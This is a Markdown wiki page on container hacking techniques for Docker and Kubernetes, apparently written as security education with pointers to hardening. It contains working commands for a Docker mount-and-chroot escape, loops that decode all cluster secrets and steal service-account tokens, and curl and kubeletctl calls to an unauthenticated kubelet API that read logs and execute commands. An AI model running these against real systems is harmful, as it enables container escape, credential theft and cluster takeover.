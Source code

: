 # Container Hacking Techniques

- [Container Hacking Techniques](#container-hacking-techniques)
  - [Docker](#docker)
    - [Leveraging insecure mount](#leveraging-insecure-mount)
    - [Exploiting common missconfigurations - deepce.sh](#exploiting-common-missconfigurations---deepcesh)
  - [Kubernetes](#kubernetes)
    - [Retrieving secrets](#retrieving-secrets)
      - [Service Account secrets](#service-account-secrets)
      - [Interacting with kubelet](#interacting-with-kubelet)

This wiki aims to summarize many of the most interesting hacking and discovery approaches to identify and exploit missconfigurations in containerized environments.
Check [Container Security In Depth](../../container-security-in-depth.md) for understanding proper security measures to be applied to reduce the risk and likelihood of success of an attacker.

## Docker

### Leveraging insecure mount

As explained in [container-security-in-depth.md](../../container-security-in-depth.md), Docker group is sensitive and must be highly restricted, combined with secure policies restricting the mounts.

If not properly configured, this can be exploited by mounting the whole host filesystem into the container and then scaping with chroot capabilities. Check [docker - gtfobins](https://gtfobins.github.io/gtfobins/docker/) for further information.

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

![insecure mount](img/00-insecure-mount.png)

### Exploiting common missconfigurations - deepce.sh

[Deepce](https://github.com/stealthcopter/deepce) is an interesting contribution from open source container focused in exploiting well known missconfigurations for escaping containers and escalating privileges.

To install it:

```bash
sudo curl -sL https://github.com/stealthcopter/deepce/raw/main/deepce.sh -o /usr/local/bin/deepce.sh; sudo  chmod +x /usr/local/bin/deepce.sh
```

```bash
deepce.sh -e DOCKER
```

![Deepce](img/01-deepce-execution.png)

Following screenshot showcase possible exploitable paths to leverage access to the system. The last step is executing the exploit mentioned in [#leveraging-insecure-mount](#leveraging-insecure-mount).

## Kubernetes

### Retrieving secrets

Kubernetes secrets shall not be considered a proper robust measure for managing secrets for applications. Either `read` permissions over secrets in namespace or cluster-wide or having the possibility to exec in the pod, can expose the real content of the secrets.

Secrets are `base64 encoded` so those are easy to retrieve.

If a user has access to the pod, it is not complicated to obtain the values.

Here I register some discovery techniques:

```bash
for secret in $(kubectl get secrets --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  data=$(kubectl get secrets ${name} -n ${namespace} -o=jsonpath="{.data}")
  echo ${data} | jq -r 'to_entries[] | .key + ": " + .value' | while IFS=": " read -r key value; do
      echo -e "\e[32mSecret name: $key:\e[0m\n\e[34mSecret value: $(echo $value | base64 --decode)\e[0m\n\n"
  done
done
```

Get all volumes mounted from secret in host:

```bash
for container in $(crictl ps | tail -n+2 | awk {'print $1'});do
  for volume in $(crictl inspect $container | jq -r .status.mounts[].hostPath |  grep "kubernetes.io~secret");do
    for data in $(ls ${volume}); do
      cat ${volume}/${data}
    done
  done
done
```

> \[!NOTE\]
> Above automation needs to be executed in each of the nodes to retrieve the node specific secrets mounted as volumes for the containers. Requires root permission, but evidences that the secrets are accessible. In an ideal scenario, the administrator shall not access the real secrets of an application of the bank, only because he should manage the infra. Makes sense?

Summary:

- Secrets are accessible either by environment variables or mounts. This is not a big challenge to retrieve, so RBAC takes a lot of importance in protecting the organization as well as using dynamic secret retrieval with Vault Managers instead of leveraging kubernetes secrets directly.
- Secrets are defined in base64 and therefore **not encrypted**. If someone has `read` permission over secrets, it is trivial to retrieve the real value of those.

#### Service Account secrets

By default if not properly configured, a kubernetes cluster mounts the `default` service account in each `namespace` for each pod deployed there. Also, other service accounts may have been created in the cluster and mapped against a pod (or deployment, daemonsets, statefulsets definitions).

These service accounts are mounted in `/var/run/secrets/kubernetes.io/serviceaccount/` of the pod as shown in below example.

![SA](img/02-sa-mount.png)

A `"good"` hacking practice is to obtain all service accounts that are visible (depending on the permissions), trying to get a more privileged sa than the user permissions (e.g. Jenkins with `Kubernetes Cloud` is likely to have interesting permissions.)

```bash
for secret in $(kubectl get pods --all-namespaces -o jsonpath="{range .items[*]}{.metadata.name}:{.metadata.namespace}{'\n'}{end}");do
  name=$(echo ${secret} | cut -d ":" -f 1)
  namespace=$(echo ${secret} | cut -d ":" -f 2)
  mounts_=$(kubectl exec -it ${name} -n ${namespace} -- ls /var/run/secrets/kubernetes.io/serviceaccount/)
  token=$(kubectl exec -it ${name} -n ${namespace} -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
  echo -e "\e[32mPod: $name in $namespace:\e[0m\n\e[34mSA mounts\n $mounts_:\n token $token\e[0m\n\n"
done
```

![Token retrieval](img/03-token-retrieval.png)

> \[!CAUTION\]
> Notice that not all the returns are successful. As explained in other chapter, using secure images can reduce the attack surface. There are very limited images such as the ones built from scratch or distroless that do not have even `ls` or `cat` commands available. It could also happen that the system calls are filtered with `seccomp`. Having said that, as you notice in the screenshot, having exec permissions is quite critical to be able to retrieve majority of the secrets of the cluster and therefore the RBAC must be well defined and tight to protect the organization.

#### Interacting with kubelet

If kubelet service is not authorized (it is not common, but could happen) we may be able to interact with the api to compromise the cluster.

There is no documentation about the API perse available for the public. However the code is available here: [Kubelet server](https://github.com/kubernetes/kubernetes/blob/4a6935b31fcc4d1498c977d90387e02b6b93288f/pkg/kubelet/server/server.go). The api definitions and the routes are exposed here.

Useful reference: [Blog about kubelet API](https://www.deepnetwork.com/blog/2020/01/13/kubelet-api.html#logs)

Examples:

1. Retrieve pods running in node.

```bash
curl --insecure https://172.31.41.69:10250/pods
```

2. Get logs of pod and container.

```bash
curl --insecure https://172.31.41.69:10250/containerLogs/default/kube-hunter-2mhkq/kube-hunter
```

3. Get running pods

```bash
curl --insecure https://172.31.41.69:10250/runningpods
```

4. List all kubelet available logs. Including `user-data, calico, journal, pods, syslog, etc.`. Many relevant information that can help to build a successful exploitable path.

```bash
curl --insecure https://172.31.41.69:10250/logs/
```

5. Get specific logs:

```bash
curl --insecure https://172.31.41.69:10250/logs/amazon/ssm/errors.log
```

To fix this a proper authorization strategy must be present in kubelet configuration (`/var/lib/kubelet/config.yaml`)

> \[!TIP\]
> Check this repository for more user-friendly interaction with kubelet API. [Cyberark kubeletctl](https://github.com/cyberark/kubeletctl)

```bash
sudo sh -c "curl -L https://github.com/cyberark/kubeletctl/releases/download/v1.9/kubeletctl_linux_amd64 -o /usr/local/bin/kubeletctl && chmod a+x /usr/local/bin/kubeletctl"
```

1. Getting pods:

```bash
kubeletctl pods --server 172.31.41.69
```

2. Exec a command inside the container.

```bash
kubeletctl run "<command-inside-container>" -p <pod-id> -c <container-name> -n <namespace>  --server 172.31.41.69
```